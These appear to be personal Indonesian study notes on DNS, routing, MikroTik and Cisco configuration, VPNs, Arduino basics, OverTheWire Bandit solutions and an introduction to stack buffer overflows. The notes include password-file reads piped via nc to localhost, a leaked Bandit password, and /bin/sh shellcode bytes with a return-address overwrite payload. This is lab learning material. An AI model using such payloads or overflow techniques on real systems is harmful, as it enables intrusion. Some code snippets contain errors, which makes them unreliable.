- ada kode layanan, seperti www.nama.or.id, layanan.nama.or.id, layanan.co.id, dll.
Sebuah contoh dari teori rekursif DNS
Sebuah contoh mungkin dapat memperjelas proses ini. Andaikan ada aplikasi yang memerlukan pencarian alamat IP dari www.wikipedia.org. Aplikasi tersebut bertanya ke DNS recursor lokal.
- Sebelum dimulai, recursor harus mengetahui dimana dapat menemukan root nameserver; administrator dari recursive DNS server secara manual mengatur (dan melakukan update secara berkala) sebuah file dengan nama root hints zone (panduan akar DNS) yang menyatakan alamat-alamt IP dari para server tersebut.
- Proses dimulai oleh recursor yang bertanya kepada para root server tersebut - misalkan: server dengan alamat IP "198.41.0.4" - pertanyaan "apakah alamat IP dari www.wikipedia.org?"
- Root server menjawab dengan sebuah delegasi, arti kasarnya: "Saya tidak tahu alamat IP dari www.wikipedia.org, tapi saya "tahu" bahwa server DNS di 204.74.112.1 memiliki informasi tentang domain org."
- Recursor DNS lokal kemudian bertanya kepada server DNS (yaitu: 204.74.112.1) pertanyaan yang sama seperti yang diberikan kepada root server. "apa alamat IP dari www.wikipedia.org?". (umumnya) akan didapatkan jawaban yang sejenis, "saya tidak tahu alamat dari www.wikipedia.org, tapi saya "tahu" bahwa server 207.142.131.234 memiliki informasi dari domain wikipedia.org."
- Akhirnya, pertanyaan beralih kepada server DNS ketiga (207.142.131.234), yang menjawab dengan alamat IP yang dibutuhkan.
Proses ini menggunakan pencarian rekursif (recursion / recursive searching).

- A user types ‘example.com’ into a web browser and the query travels into the Internet and is received by a DNS recursive resolver.
- The resolver then queries a DNS root nameserver (.).
- The root server then responds to the resolver with the address of a Top Level Domain (TLD) DNS server (such as .com or .net), which stores the information for its domains. When searching for example.com, our request is pointed toward the .com TLD.
- The resolver then makes a request to the .com TLD.
- The TLD server then responds with the IP address of the domain’s nameserver, example.com.
- Lastly, the recursive resolver sends a query to the domain’s nameserver.
- The IP address for example.com is then returned to the resolver from the nameserver.
- The DNS resolver then responds to the web browser with the IP address of the domain requested initially.
-
Once the 8 steps of the DNS lookup have returned the IP address for example.com, the browser is able to make the request for the web page:
- The browser makes a HTTP request to the IP address.
- The server at that IP returns the webpage to be rendered in the browser (step 10).
Jenis-jenis catatan DNS
Beberapa kelompok penting dari data yang disimpan di dalam DNS adalah sebagai berikut:
- A record atau catatan alamat memetakan sebuah nama host ke alamat IP 32-bit (untuk IPv4).
- AAAA record atau catatan alamat IPv6 memetakan sebuah nama host ke alamat IP 128-bit (untuk IPv6).
- CNAME record atau catatan nama kanonik membuat alias untuk nama domain. Domain yang di-alias-kan memiliki seluruh subdomain dan rekod DNS seperti aslinya.
- MX record atau catatan pertukaran surat memberikan informasi tentang mail exchange server / mail server untuk sebuah domain.
- PTR record atau catatan penunjuk memetakan sebuah nama host ke nama kanonik untuk host tersebut. Pembuatan rekod PTR untuk sebuah nama host di dalam domain in-addr.arpa yang mewakili sebuah alamat IP menerapkan pencarian balik DNS (reverse DNS lookup) untuk alamat tersebut. Contohnya (saat penulisan / penerjemahan artikel ini), www.icann.net memiliki alamat IP 192.0.34.164, tetapi sebuah rekod PTR memetakan ,,164.34.0.192.in-addr.arpa</tt> ke nama kanoniknya: referrals.icann.org.
- NS record atau catatan server nama memberitahukan daftar name server (NS) yang membawa informasi tentang sebuah domain.
- SOA record atau catatan otoritas awal (Start of Authority) memberikan informasi server DNS yang mempunyai autoritas tertinggi untuk sebuah domain.
- SRV record adalah catatan lokasi secara umum.
- Catatan TXT mengijinkan administrator untuk memasukan data acak ke dalam catatan DNS; catatan ini juga digunakan di spesifikasi Sender Policy Framework.
Jenis catatan lainnya semata-mata untuk penyediaan informasi (contohnya, catatan LOC memberikan letak lokasi fisik dari sebuah host, atau data ujicoba (misalkan, catatan WKS memberikan sebuah daftar dari server yang memberikan servis yang dikenal (well-known service) seperti HTTP atau POP3 untuk sebuah domain.
Perangkat lunak DNS
Beberapa jenis perangkat lunak DNS menerapkan metode DNS, beberapa diantaranya:
- BIND (Berkeley Internet Name Domain)
- djbdns (Daniel J. Bernstein's DNS)
- MaraDNS
- QIP (Lucent Technologies)
- NSD (Name Server Daemon)
- PowerDNS
Utiliti berorientasi DNS termasuk:
- dig (the domain information groper)
Routing
Routing, adalah sebuah proses pemilihan jalur atau rute (baca : route) yang akan dipergunakan router untuk meneruskan paket-paket jaringan dari satu jaringan ke jaringan lainnya melalui sebuah internetwork.
Routing juga dapat merujuk kepada sebuah metode penggabungan beberapa jaringan sehingga paket-paket data dapat hinggap dari satu jaringan ke jaringan selanjutnya. Untuk melakukan hal ini, digunakanlah sebuah perangkat jaringan yang disebut sebagai router.
Router-router tersebut akan menerima paket-paket yang ditujukan ke jaringan di luar jaringan yang pertama, dan akan meneruskan paket yang ia terima kepada router lainnya hingga sampai kepada tujuannya.
Tipe routing :
- Routing Static
- Routing Dynamic
Routing Static
Routing Dynamic
sumber : youtube
Basic Configuration
beli mikrotik, lalu diapakan? :)
dapat IP dari ISP
IP jaringan dari ISP, IP lokal dari sendiri (IP Private)
IP Private :
- 10.0.0.0/8
- 172.16.0.0/12
- 192.168.0.0/16
- bisa juga pakai /24 spt yg biasanya dipakai, utk jaringan kecil (+- 200 client)
1. setting user dan password

2. Setting identity mikrotik

3. Setting Bridge WAN
agar portnya mudah disetting (jika ada yg rusak / ada yg nambah nyolok ke port),
intinya pengkategorian untuk port masuk WAN / LAN



jika isp menggunakan dhcp : (jika tidak / setting manual, caranya ada di mikbasic )

4. Setting DNS

5. Setting Bridge LAN

kurang lebih totalnya gini :

6. Setting LAN

*saran : setting dengan IP 172.16.0.1/24 (atau selain 192.168.43.x/24)
7. Setting DHCP Server
agar komputer client dapat langsung connect dan mendapat IP Dinamis


*saran : setting dengan IP 172.16.0.1/24 (atau selain 192.168.43.x/24), disesuaikan diatas

*percobaan diatas kebetulan mikrotik mendadak error :) , tp sebetulnya aman
8. Setting Firewall NAT
agar client dapat berinternet


9. Membatasi Queue Client

10. Membatasi Open Port

11. Membuat Access Point (Wifi)
*kebetulan pakai virtualbox, jadi tidak bisa setting wifi mikrotik


12. Membuat WIFI dari PPPoE


Basic Networking :

Setup (basic)
- setting mikrotik
interface eternet set ether1 name=LANinterface eternet set ether2 name=WANip address add address=192.168.x.x/24 interface=WAN
lanjut di winbox biar a6 : - buka browser, tulis ip WAN mikrotik, misal
192.168.43.10 - unduh winbox, lalu login winbox, default
user : admin, password : (kosong) - ip > address > add > address : 172.16.0.1/24 > interface : LAN
atau :ip address add interface=LAN address=172.16.0.1/24 netmask=255.255.255.0 - setting komputer
- pastikan mode internal network
- wifi > edit connections > ethernet
- menu IPv4 > method Manual
- add > address : 172.16.0.123 > netmask : 255.255.255.0 > gateway : 172.16.0.1 > dns server : 8.8.8.8
- agar mudah, pilih mode work network / home network
- tambahan (terkadang sudah auto set oleh mikrotik)
- ip > routes > add > dst.address : 0.0.0.0/0 > gateway : 192.169.43.1
Ganti user password :
- system > users > tinggal ganti2
DHCP client & server
nyoba setting DHCP server untuk interface LAN, agar komputer client dapat IP dinamis- ip > dhcp server
- DHCP setup
- interface LAN > next terosss
- setting jaringan komputer client menjadi otomatis
- jika ingin IP client statis, ip dhcp server > leases > klik kanan D > make statis
- ip > dhcp > static
- add
- regexp : .*\youtube.com ---> yg ingin diblokir
- address : 172.16.0.1 ---> pengalihannya, bisa ke web server sendiri
- ip > firewall
- > NAT
- chain : dstnat
- dst.port : 53
- protocol : udp & tcp ---> krn terkadang pake udp / tcp, lngs 2 2 nya ajaaa
- > action
- action : dst-nat
- to addresses : 172.16.0.1
- to ports : 53
suatu ketika krn sistem lemah, maka automatic dhcp dapat dialihkan

pemaksaan pembatasan akses :VPN
sumber : mikrotik.co.id
PPTP (Point to Point Tunnel Protocol)
PPTP merupakan salah satu type VPN yang paling sederhana dalam konfigurasi. Selain itu juga fleksibel. Mayoritas operating system sudah support sebagai PPTP Client, baik operating system pada PC ataupun gadget seperti android. Komunikasi PPTP menggunakan protokol TCP port 1723, dan menggunakan IP Protocol 47/GRE untuk enkapsulasi paket datanya. Pada setting PPTP, kita bisa menentukan network security protocol yang digunakan untuk proses autentikasi PPTP pada Mikrotik, seperti pap,chap,mschap dan mschap2. Kemudian setelah tunnel terbentuk, data yang ditransmisikan akan dienkripsi menggunakan Microsoft Point-to-Point Encryption (MPPE). Proses enskripsi biasanya akan membuat ukuran header paket yang ditransmisikan akan bertambah. Jika kita monitoring, traffick yang melewati tunnel PPTP akan mengalami overhead � 7%.
L2TP (Layer 2 Tunnel Protocol)
L2TP merupakan pengembangan dari PPTP ditambah L2F. Network security Protocol dan enkripsi yang digunakan untuk autentikasi sama dengan PPTP. Akan tetapi untuk melakukan komunikasi, L2TP menggunakan UDP port 1701. Biasanya untuk keamaanan yang lebih baik, L2TP dikombinasikan dengan IPSec, menjadi L2TP/IPSec. Contohnya untuk Operating system Windows, secara default OS Windows menggunakan L2TP/IPSec. Akan tetapi, konsekuensinya tentu saja konfigurasi yang harus dilakukan tidak se-simple PPTP. Sisi client pun harus sudah support IPSec ketika menerapkan L2TP/IPSec. Dari segi enkripsi, tentu enkripsi pada L2TP/IPSec memiliki tingkat sekuritas lebih tinggi daripada PPTP yg menggunakan MPPE. Traffick yang melewati tunnel L2TP akan mengalami overhead � 12%.
SSTP (Secure Socket Tunneling Protocol)
Untuk membangun vpn dengan metode SSTP diperlukan sertifikat SSL di masing-masing perangkat, kecuali keduanya menggunakan RouterOS. Komunikasi SSTP menggunakan TCP port 443 (SSL), sama hal nya seperti website yang secure (https). Anda harus memastikan clock sudah sesuai dengan waktu real jika menggunakan certificate. Manyamakan waktu router dengan real time bisa dengan fitur NTP Client. Sayangnya belum semua OS Support VPN dengan metode SSTP. Traffick yang melewati tunnel SSTP akan mengalami overhead � 12%.
OpenVPN
VPN ini Biasa digunakan ketika dibutuhkan keamanan data yg tinggi. Secara default, OpenVPN menggunakan UDP port 1194 dan dibutuhkan certificate pada masing-masing perangkat untuk bisa terkoneksi. Untuk client compatibility, OpenVPN bisa dibangun hampir pada semua Operating System dengan bantuan aplikasi pihak ketiga. OpenVPN menggunakan algoritma sha1 dan md5 untuk proses autentikasi, dan menggunakan beberapa chiper yaitu blowfish128, aes128, aes192 dan aes256. Trafik yang melewati tunnel OpenVPN akan mengalami overhead � 16%.
Perlu diingat, bahwa semakin kita membutuhkan sebuah jaringan yg aman, maka akan semakin kompleks konfigurasi yang perlu diterapkan, begitu juga dengan penggunaan resource hardware, semakin tinggi enkripsi yang digunakan, penggunaan resource, khususnya CPU juga akan naik. Kesimpulan yang bisa kita ambil, jika Anda menginginkan VPN dg kompatibilitas perangkat client yg baik , maka PPTP bisa menjadi pilihan. Selain itu, PPTP juga bisa menjadi pilihan jika Anda tidak ingin terlalu repot untuk melakukan konfigurasi. Tetapi jika Anda menginginkan sebuah VPN dengan keamanan lebih bagus, gunakan L2TP/IPsec atau OpenVPN. Biasanya untuk OS windows, secara default menggunakan L2TP/IPSec, sehingga tinggal diseusuaikan pada sisi server. Jika memang perangkat Anda support dan Anda membutuhkan keamanan yg tinggi pada jalur VPN anda, L2TP/IPSec bisa menjadi pilihan. Satu hal yang menjadi catatan, penggunaan VPN tidak bisa meningkatkan bandwidth (lebih tepatnya mengurangi bandwidth anda karena ada penambahan headernya), tergantung dari besar bandwidth langganan anda.
VPN-PPTP
topologi :
gambar 1.

gambar 2.
misal didapat
- ip mikrotik A : 192.168.43.229
- ip mikrotik B : 192.168.43.12
- LAN mikrotik A : 120.32.98.1
- LAN mikrotik B : 123.123.123.1
pertama harus men-set interface untuk WAN dan LAN dikedua mikrotik (caranya ada di jarkom/networking) dan juga untuk gambar 2, network PC set bridged adapter
Percobaan gambar 1
dikisahkan kantor pusat punya server, lalu kita dari luar kantor ingin mengakses server kantor dengan model side-to-side / pakai sambungan dengan mikrotik
konfigurasi server :
- login mikrotilk
- mengaktifkan pptp server : ppp > pptp server > enabled > default-profile : default-encryption

- membuat akun client untuk connect pptp

konfigurasi client :



konfigurasi routes :
sisi server :


sisi client :


Percobaan gambar 2
*lanjutan konfigurasi sebelumnya
konfigurasi server :
konfigurasi client :

Kosong
Kosong
Kosong
Cisco
Materi dari https://www.netacad.com/
Cisco Packet Tracer
- Install Cisco Packet Tracer Ubuntu 20.04
- Basic Setup Router
- Simulasi Internet Sederhana
- Random
Install Cisco Packet Tracer Ubuntu 20.04
- buka web, cisco packet tracer
- register akun
- ikuti kelas cisco packet tracer
- resources > download packet tracer, *kyknya, intinya download dari title bar
- atau pakai link download ini
sudo apt updatesudo dkpg -i PacketTracer_800_amd64_build212_final.deb- ok yes
sudo apt install -fsudo dkpg -i PacketTracer_800_amd64_build212_final.deb- ok yes
packettracer- login
- selesai
Basic Setup Router


Jadi beberapa commandnya adalah :
Router> enable
Router# configure terminal
Router(config)# hostname ROUTERKU
Router(config)# enable password 12345
Router(config)# line console 0
Router(config-line)# password 123456789
Router(config-line)# login
Router(config-line)# enable secret belajar
Router(config)# banner motd &TEST&
Router(config)# exit
Router# show running-config
Router# show startup-config
Router# show ip route
Router# show version
Router# show flash
Router# delete vlan.dat
Router# erase startup-config
Router# reloadMenyimpan konfigurasi
Router# copy running-config startup-configSimulasi Internet Sederhana


Random

- Setting pc
- ip address :
192.168.43.x(kiri),192.168.1.x(kanan) - subnetmask :
255.255.255.0 - gateway :
192.168.43.254(kiri),192.168.1.254(kanan)
- Setting Router
-
Router Kiri :
Router(config)# interface FastEthernet0/0
Router(config-fi)# ip address 192.168.43.254 255.255.255.0
Router(config-fi)# no shutdown
Router(config-fi)# exit
Router(config)# interface FastEthernet1/0
Router(config-fi)# ip address 192.168.10.1 255.255.255.0
Router(config-fi)# no shutdown
Router(config-fi)# exit
Router(config)# ip route 192.168.2.0 255.255.255.0 192.168.10.2Router(config)# interface FastEthernet0/0
Router(config-fi)# ip address 192.168.1.254 255.255.255.0
Router(config-fi)# no shutdown
Router(config-fi)# exit
Router(config)# interface FastEthernet1/0
Router(config-fi)# ip address 192.168.10.2 255.255.255.0
Router(config-fi)# no shutdown
Router(config-fi)# exit
Router(config)# ip route 192.168.43.0 255.255.255.0 192.168.10.1-
Router kanan :
no ip route 192.168.43.0 255.255.255.0
3. RIP : Routing Information Protocol (bentuk ringkas dari no.2) (?) :)
-
Router Kiri :
Router(config)# router rip
Router(config-router)# network 192.168.43.0
Router(config-router)# network 192.168.10.0Router(config)# router rip
Router(config-router)# network 192.168.1.0
Router(config-router)# network 192.168.10.0Kosong
Kosong
Cyber Security
Robotic
source :
- https://indobot.co.id/ebook/
- https://premium.indobot.co.id/tutorial/
- https://www.tutorialspoint.com/arduino/index.htm
https://www.tutorialspoint.com/arduino/arduino_board_description.htm
https://www.tutorialspoint.com/arduino/arduino_data_types.htm
Coding Arduino
Conditional
/* Global variable definition */
int A = 5 ;
int B = 9 ;
int c = 15;
Void setup () {
}
Void loop () {
/* check the boolean condition /
if (A > B) /* if condition is true then execute the following statement*/ {
A++;
}
/* check the boolean condition /
else if ((A == B )||( B < c) ) / if condition is true then
execute the following statement*/ {
C = B* A;
}else
c++;
}
switch (phase) {
case 0: Lo(); break;
case 1: Mid(); break;
case 2: Hi(); break;
default: Message("Invalid state!");
}
/* Find max(a, b): */
max = ( a > b ) ? a : b;
/* Convert small letter to capital: */
/* (no parentheses are actually necessary) */
c = ( c >= 'a' && c <= 'z' ) ? ( c - 32 ) : c;
while(expression) {
Block of statements;
}
while(expression) {
Block of statements;
}
do {
Block of statements;
}
while (expression);
for(counter = 2;counter <= 9;counter++) {
//statements block will executed 10 times
}
Function
for(counter = 0;counter <= 9;counter++) {
//statements block will executed 10 times
for(i = 0;i <= 99;i++) {
//statements block will executed 100 times
}
}
int sum_func (int x, int y) // function declaration {
int z = 0;
z = x+y ;
return z; // return the value
}
void setup () {
Statements // group of statements
}
Void loop () {
int result = 0 ;
result = Sum_func (5,6) ; // function call
}
String
void setup() {
char my_str[6]; // an array big enough for a 5 character string
Serial.begin(9600);
my_str[0] = 'H'; // the string consists of 5 characters
my_str[1] = 'e';
my_str[2] = 'l';
my_str[3] = 'l';
my_str[4] = 'o';
my_str[5] = 0; // 6th array element is a null terminator
Serial.println(my_str);
}
void loop() {
}
void setup() {
char my_str[] = "Hello";
Serial.begin(9600);
Serial.println(my_str);
}
void loop() {
}
void setup() {
char like[] = "I like coffee and cake"; // create a string
Serial.begin(9600);
// (1) print the string
Serial.println(like);
// (2) delete part of the string
like[13] = 0;
Serial.println(like);
// (3) substitute a word into the string
like[13] = ' '; // replace the null terminator with a space
like[18] = 't'; // insert the new word
like[19] = 'e';
like[20] = 'a';
like[21] = 0; // terminate the string
Serial.println(like);
}
void loop() {
}
void setup() {
char str[] = "This is my string"; // create a string
char out_str[40]; // output from string functions placed here
int num; // general purpose integer
Serial.begin(9600);
// (1) print the string
Serial.println(str);
// (2) get the length of the string (excludes null terminator)
num = strlen(str);
Serial.print("String length is: ");
Serial.println(num);
// (3) get the length of the array (includes null terminator)
num = sizeof(str); // sizeof() is not a C string function
Serial.print("Size of the array: ");
Serial.println(num);
// (4) copy a string
strcpy(out_str, str);
Serial.println(out_str);
// (5) add a string to the end of a string (append)
strcat(out_str, " sketch.");
Serial.println(out_str);
num = strlen(out_str);
Serial.print("String length is: ");
Serial.println(num);
num = sizeof(out_str);
Serial.print("Size of the array out_str[]: ");
Serial.println(num);
}
void loop() {
}
Time
-
Delay
/* Flashing LED
* ------------
* Turns on and off a light emitting diode(LED) connected to a digital
* pin, in intervals of 2 seconds. *
*/
int ledPin = 13; // LED connected to digital pin 13
void setup() {
pinMode(ledPin, OUTPUT); // sets the digital pin as output
}
void loop() {
digitalWrite(ledPin, HIGH); // sets the LED on
delay(1000); // waits for a second
digitalWrite(ledPin, LOW); // sets the LED off
delay(1000); // waits for a second
}
Delay Microseconds
/* Flashing LED
* ------------
* Turns on and off a light emitting diode(LED) connected to a digital
* pin, in intervals of 1 seconds. *
*/
int ledPin = 13; // LED connected to digital pin 13
void setup() {
pinMode(ledPin, OUTPUT); // sets the digital pin as output
}
void loop() {
digitalWrite(ledPin, HIGH); // sets the LED on
delayMicroseconds(1000); // waits for a second
digitalWrite(ledPin, LOW); // sets the LED off
delayMicroseconds(1000); // waits for a second
}
millis
unsigned long time; void setup() {
Serial.begin(9600);
}
void loop() {
Serial.print("Time:"); time = millis();
//prints time since program started
Serial.println(time);
// wait a second so as not to send massive amounts of data
delay(1000);
}
micros
unsigned long time; void setup() {
Serial.begin(9600);
}
void loop() {
Serial.print("Time:");
time = micros(); //prints time since program started
Serial.println(time); // wait a second so as not to send massive amounts of data
delay(1000);
}
Array
int n[ 10 ] ; // n is an array of 10 integers
void setup () {
}
void loop () {
for ( int i = 0; i < 10; ++i ) // initialize elements of array n to 0 {
n[ i ] = 0; // set element at location i to 0
Serial.print (i) ;
Serial.print (‘</span>r’) ;
}
for ( int j = 0; j < 10; ++j ) // output each array element's value {
Serial.print (n[j]) ;
Serial.print (‘</span>r’) ;
}
}
// n is an array of 10 integers
int n[ 10 ] = { 32, 27, 64, 18, 95, 14, 90, 70, 60, 37 } ;
void setup () {
}
void loop () {
for ( int i = 0; i < 10; ++i ) {
Serial.print (i) ;
Serial.print (‘\r’) ;
}
for ( int j = 0; j < 10; ++j ) // output each array element's value {
Serial.print (n[j]) ;
Serial.print (‘\r’) ;
}
}
Arduino Function
I/O Function
int button = 5 ; // button connected to pin 5
int LED = 6; // LED connected to pin 6
void setup () {
pinMode(button , INPUT_PULLUP);
// set the digital pin as input with pull-up resistor
pinMode(button , OUTPUT); // set the digital pin as output
}
void setup () {
If (digitalRead(button ) == LOW) // if button pressed {
digitalWrite(LED,HIGH); // turn on led
delay(500); // delay for 500 ms
digitalWrite(LED,LOW); // turn off led
delay(500); // delay for 500 ms
}
}
int LED = 6; // LED connected to pin 6
void setup () {
pinMode(LED, OUTPUT); // set the digital pin as output
}
void setup () {
digitalWrite(LED,HIGH); // turn on led
delay(500); // delay for 500 ms
digitalWrite(LED,LOW); // turn off led
delay(500); // delay for 500 ms
}
int analogPin = 3;//potentiometer wiper (middle terminal)
// connected to analog pin 3
int val = 0; // variable to store the value read
void setup() {
Serial.begin(9600); // setup serial
}
void loop() {
val = analogRead(analogPin); // read the input pin
Serial.println(val); // debug value
}
Advanced I/O Function
https://www.tutorialspoint.com/arduino/arduino_advanced_io_function.htm
Character Function
void setup () {
Serial.begin (9600);
Serial.print ("According to isdigit:\r");
Serial.print (isdigit( '8' ) ? "8 is a": "8 is not a");
Serial.print (" digit\r" );
Serial.print (isdigit( '8' ) ?"# is a": "# is not a") ;
Serial.print (" digit\r");
Serial.print ("\rAccording to isalpha:\r" );
Serial.print (isalpha('A' ) ?"A is a": "A is not a");
Serial.print (" letter\r");
Serial.print (isalpha('A' ) ?"b is a": "b is not a");
Serial.print (" letter\r");
Serial.print (isalpha('A') ?"& is a": "& is not a");
Serial.print (" letter\r");
Serial.print (isalpha( 'A' ) ?"4 is a":"4 is not a");
Serial.print (" letter\r");
Serial.print ("\rAccording to isalnum:\r");
Serial.print (isalnum( 'A' ) ?"A is a" : "A is not a" );
Serial.print (" digit or a letter\r" );
Serial.print (isalnum( '8' ) ?"8 is a" : "8 is not a" ) ;
Serial.print (" digit or a letter\r");
Serial.print (isalnum( '#' ) ?"# is a" : "# is not a" );
Serial.print (" digit or a letter\r");
Serial.print ("\rAccording to isxdigit:\r");
Serial.print (isxdigit( 'F' ) ?"F is a" : "F is not a" );
Serial.print (" hexadecimal digit\r" );
Serial.print (isxdigit( 'J' ) ?"J is a" : "J is not a" ) ;
Serial.print (" hexadecimal digit\r" );
Serial.print (isxdigit( '7' ) ?"7 is a" : "7 is not a" ) ;
Serial.print (" hexadecimal digit\r" );
Serial.print (isxdigit( '$' ) ? "$ is a" : "$ is not a" );
Serial.print (" hexadecimal digit\r" );
Serial.print (isxdigit( 'f' ) ? “f is a" : "f is not a");
}
void loop () {
}
Math Library
double double__x = 45.45 ;
double double__y = 30.20 ;
void setup() {
Serial.begin(9600);
Serial.print("cos num = ");
Serial.println (cos (double__x) ); // returns cosine of x
Serial.print("absolute value of num = ");
Serial.println (fabs (double__x) ); // absolute value of a float
Serial.print("floating point modulo = ");
Serial.println (fmod (double__x, double__y)); // floating point modulo
Serial.print("sine of num = ");
Serial.println (sin (double__x) ) ;// returns sine of x
Serial.print("square root of num : ");
Serial.println ( sqrt (double__x) );// returns square root of x
Serial.print("tangent of num : ");
Serial.println ( tan (double__x) ); // returns tangent of x
Serial.print("exponential value of num : ");
Serial.println ( exp (double__x) ); // function returns the exponential value of x.
Serial.print("cos num : ");
Serial.println (atan (double__x) ); // arc tangent of x
Serial.print("tangent of num : ");
Serial.println (atan2 (double__y, double__x) );// arc tangent of y/x
Serial.print("arc tangent of num : ");
Serial.println (log (double__x) ) ; // natural logarithm of x
Serial.print("cos num : ");
Serial.println ( log10 (double__x)); // logarithm of x to base 10.
Serial.print("logarithm of num to base 10 : ");
Serial.println (pow (double__x, double__y) );// x to power of y
Serial.print("power of num : ");
Serial.println (square (double__x)); // square of x
}
void loop() {
}
Trigono
double sin(double x); //returns sine of x radians
double cos(double y); //returns cosine of y radians
double tan(double x); //returns the tangent of x radians
double acos(double x); //returns A, the angle corresponding to cos (A) = x
double asin(double x); //returns A, the angle corresponding to sin (A) = x
double atan(double x); //returns A, the angle corresponding to tan (A) = x
Kosong
Capture The Flag (CTF)
overthewire
Some Bandit Solving
bandit 5 -> 6
not executable, size 1033 bytes
find \! -executable -size 1033c
bandit 6 -> 7
owned by user bandit7
owned by group bandit6
33 bytes in size
find / -user bandit7 -group bandit6 -s 33c
bandit 8 -> 9
sort data.txt | uniq -c | grep "1 "
bandit 9 -> 10
# kyke masih ada yg lebih bagus
grep -aP "====" data.txt
string data.txt | grep "===="
bandit 12 -> 13
!!! cuman hint
xxd file.txt > file.hex
xxd -reverse file.hex > file2.txt
gunzip
bunzip2
tar xvf
bandit 13 -> 14
masuk ssh bandit13
ssh -i sshkey.private bandit14@localhost
bandit 14 -> 15
masuk ssh bandir13 -> 14
cat /etc/bandit_pass/bandit14 | nc localhost 30000
bandit 15 -> 16
cat /etc/bandit_pass/bandit15 | openssl s_client -connect localhost:30001 -ign_eof
bandit 16 -> 17
nmap -p 31000-32000 localhost
cobak port satu-satu
cat /etc/bandit_pass/bandit16 | openssl s_client -connect localhost:<port> -ign_eof
dapat code RSA, copas di /tmp/tes/nama
ssh -i kode_rsanya bandit17@localhost
bandit 17 -> 18
diff password.old password.new
bandit 18 -> 19
ssh juga bisa mengirim command tanpa harus masuk remote
sshpass -p `cat bandit18` ssh bandit18@bandit.labs.overthewire.org -p 2220 "cat readme"
bandit 20 -> 21
masuk ke server dengan 2 terminal
terminal 1 :
cat /etc/bandit_pass/bandit20
nc -lvp 12345
terminal 2 :
./suconnect 12345
terminal 1 :
GbKksEFF4yrVs6il55v6gwY5aVje5f0j
bandit 21 -> 22
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
bandit 22 -> 23
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit23.sh
echo I am user bandit23 | md5sum | cut -d ' ' -f 1
cat /tmp/8ca319486bfbbc3663ea0fbe81326349Kosong
Binary-Expxloitation
(!) MASIH BELUM JELAS PENJELASANNYA
Contoh buffer sederhana, untuk return address
ide : mengisi buffer untuk mengganti suatu nilai variabel / return addr
perisapan tools : gdb, text-editor
source code :
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void win(){
printf("masuk ke fungsi win\n");
}
void salahSambung(){
printf("bukan fungsi yg ini\n");
}
void vuln(){
int a = 100;
char b = 'A';
char c[4] = {'Z','Y','X','W'};
char buff[32];
printf("%d\n", a);
printf("%c\n", b);
printf("%c %c %c %c\n", c[0], c[1], c[2], c[3]);
printf("masuk ke fungsi vuln : ");
gets(&buff);
printf("buff : %s\n", buff);
printf("a : %d\n", a);
printf("b : %c\n", b);
printf("array : %c %c %c %c\n", c[0], c[1], c[2], c[3]);
}
int main()
{
vuln();
return 0;
}
ketika dirun dalam gdb, didapat lokasi memory fungsi-fungsi :
0x0000555555555189 win
0x00005555555551a0 salah_sambung
0x00005555555551b7 vuln<
misal gets diisi dengan 'a' sebanyak 38,
maka tinggal dipenuhi hingga 56 kali + lokasi return
misal dengan script python :
python -c "'a'*56 + '\x89\x51'" | ./buffer64
penjelasan
// batas char sampai 38
// |---|---|---|---|---|---|---|---|
//fdd20 |97 |97 |97 |97 |97 |97 |97 |97 | RSP
// |---|---|---|---|---|---|---|---|
//fdd28 |97 |97 |97 |97 |97 |97 |97 |97 |
// |---|---|---|---|---|---|---|---|
//fdd30 |97 |97 |97 |97 |97 |97 |97 |97 |
// |---|---|---|---|---|---|---|---|
//fdd38 |97 |97 |97 |97 |97 |97 |97 |97 |
// |---|---|---|---|---|---|---|---|
//fdd40 |00 | | | | | | |5a | // akan ditimpa dengan 'a'(97)
// |---|---|---|---|---|---|---|---| var c : chr(0x5a595857) = 'Z','Y','X','W'
//fdd48 |59 |58 |57 |41 |64 |00 |00 |00 | var a : 0x64 = 100
// |---|---|---|---|---|---|---|---| var b : 0x41 = chr(0x41) = 'A'
//fdd50 | | | | | | | | | RBP // akan ditimpa dengan 'a'(97)
// |---|---|---|---|---|---|---|---|
//fdd58 | | | | | | | | | return // akan ditimpa dengan '\x86\x51'
// |---|---|---|---|---|---|---|---| return address ke alamat win</code></pre>
misal nama file buffer64.c
jalannya program adalah
fungsi main -> fungsi vuln -> return ke fungsi main
dan menginginkan return ke fungsi win, memanfaatkan buffer(kerentanan)
fungsi main -> fungsi vuln -> return ke fungsi win
jalankan script :
gcc -fno-pie -fno-pic -fno-stack-protector -fno-builtin buffer64.c -o buffer64
gdb ./buffer64
pdisas main
hasil pdisas main memberikan bentuk assembly fungsi main pada sourcode
langsung di break :
break *main+13
si
n
terus di next hingga masuk fungsi gets
dalam code, sebelum ke fungsi <gets@plt> disiapkan [rbp-0x30], artinya 48 desimal untuk jumlah maksimal karakter inputan.
(!) fungsi gets terdapat vulnerable, dapat dimasuki lebih dari 48 karakter, namun variabel lain(int a, char b, char c[]) akan "terganggu"
inti :
- Melihat letak buffer
- Mencari memory yang dituju
- Melihat ruang antara BP/EBP/RBP <--> SP/ESP/RSP pada fungsi yang terdapat buffer
- mengisi buffer hingga return address
Binary Exploitation : pwn & shellcode
source code :
#include<stdio.h>
#include<unistd.h>
int main(){
char buffer[64];
printf("buffer ada di %p\n", &buffer);
fflush(stdout);
read(0, &buffer, 128);
return 0;
}
Makefile : (asumsi nama file shellcode.c)
*sementara masih yg 32bit :)
gcc -no-pie -fno-pic -fno-stack-protector -fno-builtin -mpreferred-stack-boundary=2 -m32 -z execstack shellcode.c -o shellcode
link shellcode : http://shell-storm.org
untuk dapat mengakses ke /bin/bash menggunakan kode assembly
assembly untuk menjalankan perintah /bin/sh
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
program python untuk mendapatkan line assembly :
from pwn import *
kode = '''
xor ecx, ecx
mul ecx
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov al, 11
int 0x80
'''
bentuk_line = asm(kode)
dikembalikan_bentuk_kode = disasm(bentuk_line)
print bentuk_line
dalam bentuk line : (yang akan digunakan sebagai payload)
\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80
syarat & tahap :
- dalam bentuk stack executable / disable execstack, maka dalam makefile ditambah
